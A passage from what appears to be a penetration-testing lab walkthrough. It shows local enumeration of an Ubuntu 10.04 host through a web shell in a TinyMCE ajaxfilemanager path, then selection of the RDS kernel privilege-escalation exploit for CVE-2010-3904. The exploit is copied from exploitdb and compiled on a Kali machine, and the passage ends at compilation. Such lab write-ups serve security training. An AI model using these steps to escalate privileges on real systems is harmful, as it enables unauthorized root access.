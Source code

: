 ## Escalation

### Local Enumeration

Let's begin local enumeration. First, we'll check the kernel version of this operating system:

```
<p-extensions/tiny_mce/plugins/ajaxfilemanager/inc$ cat /etc/issue
cat /etc/issue
Ubuntu 10.04.3 LTS \n \l

<p-extensions/tiny_mce/plugins/ajaxfilemanager/inc$ uname -a
uname -a
Linux offsecsrv 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
<p-extensions/tiny_mce/plugins/ajaxfilemanager/inc$
```

Looking up this kernel version, we find that it is vulnerable to a [local privilege escalation exploit](http://www.exploit-db.com/exploits/15285/) in the RDS Protocol.

### Kernel Exploitation

Let's copy the C source code file to our directory.

```
kali@kali:~$ cp /usr/share/exploitdb/exploits/linux/local/15285.c .
kali@kali:~$ head 15285.c
// source: http://www.vsecurity.com/resources/advisory/20101019-1/

/* 
 * Linux Kernel <= 2.6.36-rc8 RDS privilege escalation exploit
 * CVE-2010-3904
 * by Dan Rosenberg <drosenberg@vsecurity.com>
 *
 * Copyright 2010 Virtual Security Research, LLC
 *
 * The handling functions for sending and receiving RDS messages
kali@kali:~$
```

Next, we'll compile this exploit on our attack machine. We may need to install the cross-architecture C header files with the following command:

```
kali@kali:~$ sudo apt-get install gcc-multilib -y
```

We'll compile the exploit as follows:

```
kali@kali:~$ gcc 15285.c -o 15285 -m32
15285.c: In function ‘prep_sock’:
15285.c:66:25: warning: implicit declaration of function ‘inet_addr’ [-Wimplicit-function-declaration]
   66 |  addr.sin_addr.s_addr = inet_addr(""127.0.0.1"");
      |                         ^~~~~~~~~
15285.c: In function ‘write_to_mem’:
15285.c:136:3: warning: implicit declaration of function ‘wait’ [-Wimplicit-function-declaration]
  136 |   wait(NULL);
      |   ^~~~
kali@kali:~$
```
